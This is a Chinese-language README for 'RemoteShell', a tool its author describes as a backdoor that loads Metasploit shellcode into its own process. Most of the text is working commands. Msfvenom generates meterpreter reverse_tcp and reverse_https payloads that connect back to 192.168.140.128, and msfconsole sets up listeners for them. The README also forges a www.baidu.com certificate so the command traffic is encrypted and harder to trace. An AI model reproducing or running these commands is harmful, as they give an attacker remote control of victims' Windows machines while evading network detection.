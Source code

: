 # RemoteShell 远程Shell加载工具

![image](https://user-images.githubusercontent.com/52789403/192442397-bc23a92a-41f9-4d54-990f-3697ba9fc701.png)

这是一款远程ShellCode反弹执行后门，该工具可动态加载MSF生成的shellcode到自身进程内。

 - 生成无加密ShellCode

非加密ShellCode代码主要用于测试可用性,由于数据包非加密,所以无法应对网络溯源.
```C
# 生成代码
[root@localhost ~]# msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp \
-b '\x00\x0b' lhost=192.168.140.128 lport=9999 -f c

[root@localhost ~]# msfvenom -a x64 --platform Windows -p windows/x64/meterpreter/reverse_tcp \
-b '\x00\x0b' lhost=192.168.140.128 lport=9999 -f c

# 建立侦听器
[root@localhost ~]# msfconsole
msf6 exploit(handler) > use exploit/multi/handler
msf6 exploit(handler) > set payload windows/meterpreter/reverse_tcp
msf6 exploit(handler) > set lhost 192.168.140.128
msf6 exploit(handler) > set lport 9999
msf6 exploit(handler) > set EXITFUNC thread
msf6 exploit(handler) > exploit -j -z
```

 - 生成加密ShellCode

通过伪造证书克隆百度PEM文件,并应用于反向ShellCode代码中,此时代码在传输层已经被SSL加密.
```C
# 生成代码
[root@localhost ~]# openssl req -new -newkey rsa:4096 -days 365 -nodes -x509 \
> -subj "/C=UK/ST=London/L=London/O=Development/CN=www.baidu.com" \
> -keyout www.baidu.com.key -out www.baidu.com.crt

[root@localhost ~]# cat www.baidu.com.key www.baidu.com.crt > www.baidu.com.pem
[root@localhost ~]# msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_https \
> lhost=192.168.140.128 lport=8443 PayloadUUIDTracking=true PayloadUUIDName=MyShell \
> HandlerSSLCert=/root/www.baidu.com.pem StagerVerifySSLCert=true \
> -f c -o /root/shell.c

# 建立侦听器
[root@localhost ~]# msfconsole
msf6 exploit(handler) > use exploit/multi/handler
msf6 exploit(handler) > set payload windows/meterpreter/reverse_https
msf6 exploit(handler) > set LHOST 192.168.140.128
msf6 exploit(handler) > set LPORT 8443
msf6 exploit(handler) > set HandlerSSLCert /root/www.baidu.com.pem
msf6 exploit(handler) > set StagerVerifySSLCert true
msf6 exploit(handler) > exploit -j -z
```

